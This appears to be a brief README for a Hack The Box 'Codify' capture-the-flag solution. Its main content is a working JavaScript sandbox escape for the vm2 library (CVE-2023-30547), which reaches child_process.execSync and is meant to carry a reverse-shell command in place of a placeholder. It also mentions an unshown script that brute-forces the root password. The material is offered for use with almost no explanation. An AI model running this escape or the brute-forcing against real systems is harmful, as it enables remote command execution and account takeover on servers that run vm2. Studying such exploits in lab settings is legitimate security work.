 # HTB-Codify
Initial foothold and privilege escalation for HTB Codify 


# Reverse Shell

Based on [CVE-2023-30547](https://kaist-hacking.github.io/)

Replace `PLACEHOLDER` with your bash command. 


```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('PLACEHOLDER');
}
`

console.log(vm.run(code));

```

# Privilege Escalation 

*execute* ``root_bruteforce.py`` to bruteforce root password!
